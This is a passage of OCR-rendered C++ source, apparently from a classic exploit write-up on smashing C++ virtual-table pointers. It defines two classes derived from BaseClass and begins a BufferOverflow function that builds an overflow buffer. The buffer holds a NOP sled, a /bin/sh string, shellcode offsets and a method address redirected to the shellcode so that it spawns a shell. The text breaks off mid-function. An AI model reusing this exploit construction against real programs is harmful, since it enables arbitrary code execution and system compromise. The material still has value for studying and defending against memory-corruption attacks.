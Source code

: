 class MyClass1:public BaseClass {
public:
 void PrintBuffer() {
  printf("MyClass1: ");
  BaseClass::PrintBuffer();
 }
};

class MyClass2:public BaseClass {
public:
 void PrintBuffer() {
  printf("MyClass2: ");
  BaseClass::PrintBuffer();
 }
};

char *BufferOverflow(unsigned long BufferAddress,int IAddress,int VPTROffset,
 unsigned short AddThis,unsigned long VTABLEAddress,char *NewBuffer,char LastByte) {

 char *CBuf;
 unsigned long *LBuf;
 unsigned short *SBuf;
 char BinShSize,ShellCodeSize,StackCodeSize,NewBufferSize;
 unsigned long i,  
  MethodAddressOffset,BinShAddressOffset,NullOffset,BinShOffset,BinSh00Offset,
  ShellCodeOffset,StackCodeOffset,
  NewBufferOffset,NewBuffer00Offset,
  LastByteOffset;  
 char *BinSh="/bin/sh";
 
 CBuf=(char*)malloc(VPTROffset+4+1);
 LBuf=(unsigned long*)CBuf;
 
 BinShSize=(char)strlen(BinSh);
 ShellCodeSize=0x62;
 StackCodeSize=0x91+2-0x62;
 NewBufferSize=(char)strlen(NewBuffer);
 
 MethodAddressOffset=IAddress*4;
 BinShAddressOffset=MethodAddressOffset+4;
 NullOffset=MethodAddressOffset+8;
 BinShOffset=MethodAddressOffset+12;
 BinSh00Offset=BinShOffset+(unsigned long)BinShSize;
 ShellCodeOffset=BinSh00Offset+1;
 StackCodeOffset=ShellCodeOffset+(unsigned long)ShellCodeSize;
 NewBufferOffset=StackCodeOffset+(unsigned long)StackCodeSize;
 NewBuffer00Offset=NewBufferOffset+(unsigned long)NewBufferSize;
 LastByteOffset=VPTROffset+4;

 for (i=0;i<VPTROffset;i++) CBuf[i]='\x90'; //NOPs
 SBuf=(unsigned short*)&LBuf[2];
 *SBuf=AddThis; //added  to the This pointer on the stack
 
 LBuf=(unsigned long*)&CBuf[MethodAddressOffset];
 *LBuf=BufferAddress+ShellCodeOffset; //shellcode's address
 